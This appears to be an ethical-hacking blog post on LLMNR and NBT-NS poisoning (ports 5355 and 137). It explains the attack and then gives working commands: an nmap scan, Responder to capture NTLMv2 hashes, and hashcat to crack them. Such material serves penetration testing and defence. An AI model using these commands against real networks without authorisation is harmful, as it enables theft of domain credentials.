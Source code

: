 ```yaml
---
title: Port 5355 - LLMNR
categories: [Ethical Hacking, Common Ports and Services]
tags: [llmnr, nbt-ns, nmap, port:5355, port:137, aitm, mitm, credential access (TA0006), ntlmv2, responder, hashcat]
comments: true
---
```


# Overview

Link-Local Multicast Name Resolution (LLMNR) and the previous iteration of the service called NetBIOS Name Service (NBT-NS) are Microsoft Windows components that serve as alternate methods of host identification. LLMNR is based upon the Domain Name System (DNS) format and allows hosts on the same local link to perform name resolution for other hosts.

| Port | Service |
|:----:|---------|
| 5355 | LLMNR   |
| 137  | NBT-NS  |

Abusing LLMNR via a [AiTM/MITM](https://darkcybe.github.io/posts/94-AiTM/) attack can grant access to credentials in the form of a username and NTLMv2 hash, however this attack will require access to the same subnet as the client and server being intercepted. The below diagram depicts how this attack works:

1. A domain connected host attempts to connect to `//servername`, forwarding the request to the Domain Controller (DC) in this instance that is running DNS and DHCP services.
2. The `//servername` does not exist in the DNS records, therefore the DC returns the failed request.
3. The host then broadcasts a request to all devices on the localnet looking for `//servername`.
4. The attacker responds identifying itself as `//servername`.
5. The host sends its plaintext username and NTLMv2 hashed password to the attacker.
6. The attacker can then crack the hash received by the host to gain valid domain credentials.

![LLMNR Attack](/assets/img/posts/ETH/PORTS_SRV/LLMNR.png "LLMNR Attack")

# Reconnaissance/Discovery

As mentioned in the overview, this attack requires access to the domain as the attacking machine must be within the domain ip range in order to intercept the LLMNR request. External reconnaissance will not yield any useful results for this attack. An Internal discovery scan can be run against a Domain Controller to identify whether the LLMNR service is running by identification of the exposed port.

```bash
sudo nmap -A -sC -p 5355, 137 10.10.10.10
```
{: .nolineno }

# Exploitation

## Using Responder to Perform LLMNR Poisoning

```bash
# Responder listener on attacker machine, interface ens33 is on same domain as target
# Running the listener will wait for a host to make a request
python Responder.py -I ens33 -wd
```
{: .nolineno }

Once a victim makes a request, the NTLMv2 Username and Hash will be captured as per the below output where the victim client `172.16.2.31` made a request for `SERVERNAM`, exposing the Administrator NTLMv2 credentials.

![LLMNR Attack - Responder](/assets/img/posts/ETH/PORTS_SRV/LLMNR_Responder.png "LLMNR Attack - Responder")

Once NTLMv2 credentials hashes have been collected and saved to a text file. They can be parsed through a credential cracking utility such as hashcat.

```bash
hashcat -m 5600 -a 0 /PATH/TO/DUMP.txt /usr/share/wordlists/rockyou.txt 
```
{: .nolineno }

![LLMNR Attack - Hashcat](/assets/img/posts/ETH/PORTS_SRV/LLMNR_Hashcat.png "LLMNR Attack - Hashcat")